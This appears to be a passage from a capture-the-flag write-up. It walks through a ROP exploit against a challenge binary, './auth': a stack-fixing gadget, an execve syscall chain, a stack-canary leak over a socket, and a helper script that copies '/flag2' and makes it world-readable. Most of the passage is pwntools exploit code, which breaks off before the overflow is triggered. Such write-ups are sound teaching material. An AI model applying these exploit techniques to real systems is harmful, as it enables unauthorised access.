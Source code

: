 When crafting the exploit, we also have to fix up the stack a bit as it is slightly off alignment,
hence we have to look for a stack move gadget. Once the stack is fixed up, we can craft an
`syscall(execve, "our controlled buffer in rdi", 0, 0)` ROP chain to run a program. The obvious data
to place in the controlled buffer is `/bin/sh` but an interactive shell is a little annoying to deal
with since we don't have control over `stdin` and `stdout` yet over the network connection. Since we
have shell access already on the remote system, we can just create a helper shell script to execute
instead that copies `/flag2` to a temporary location and changes it to be world-readable. We'll name
this file `/tmp/give`.

```console
$ printf '#!/bin/bash\ncp /flag2 /tmp/flag2;chmod 777 /tmp/flag2' > /tmp/give; chmod +x /tmp/give
```

Now, we can write the full exploit to trigger the `execve` of this shell script:

```python
#!/usr/bin/env python

from pwn import *


context.clear()
context.arch = 'amd64'
# context.log_level = 'debug'

# Make a shell script executable.
# printf '#!/bin/bash\ncp /flag2 /tmp/flag2;chmod 777 /tmp/flag2' > /tmp/give; chmod +x /tmp/give


def main():
    # Generate the ROP chains.
    # First, generate the chain to fix up the stack.
    rop = ROP('./auth', badchars=b'\n')
    rop.raw(rop.search(move=68).address)
    log.info("Constructed ROP payload to fix stack: \n{}".format(rop.dump()))
    stack_rop_payload = flat(rop.build())
    log.info("Length of ROP fix stack payload: {}".format(hex(len(stack_rop_payload))))

    # Next, generate the ROP chain to call execve.
    # RDI contains the address of a couple bytes into the buffer, which is perfect.
    # We want to execute syscall(execve, n_bytes_into_buffer, 0, 0)
    rop = ROP('./auth', badchars=b'\n')
    rop(rax=constants.SYS_execve, rsi=0, rdx=0)
    rop.raw(rop.syscall.address)
    # Finally, we can JMP RSP to our shellcode.
    #rop.raw(rop.jmp_rsp.address)
    log.info("Constructed ROP payload: \n{}".format(rop.dump()))
    rop_payload = flat(rop.build())
    # from IPython import embed; embed()
    log.info("Length of ROP payload: {}".format(hex(len(rop_payload))))

    # Leak the canary with a short write to expose the canary at buffer + 8.
    p = remote('localhost', 4444)
    canary_payload = b'\n\n'
    p.send(canary_payload)
    p.recv(8)
    canary = u64(p.recv(8))
    log.info('Canary: {}'.format(hex(canary)))
    p.close()

    # Trigger the overflow.
```